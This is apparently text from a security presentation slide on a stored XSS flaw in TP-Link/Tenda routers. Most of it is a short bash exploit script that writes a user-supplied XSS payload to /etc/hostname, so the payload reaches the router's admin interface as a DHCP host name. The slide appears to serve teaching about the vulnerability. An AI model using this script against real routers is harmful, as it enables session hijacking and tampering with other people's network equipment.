

# Xss案例
Tp-link tenda 路由器的xss漏洞
#!/bin/bash
GREEN=$(tput setaf 2 && tput bold)
BLUE=$(tput setaf 6 && tput bold)
echo $BLUE"[+] Persistent XSS DHCP Exploiter via Routers"
echo $GREEN"[+] Vulnerability founded by : Lawrence Amer "
echo -n $BLUE"[~] type XSS Payload here :"
read -e xss
echo $xss > /etc/hostname
echo $GREEN"[+]DHCP HOST NAME IS WRITTEN"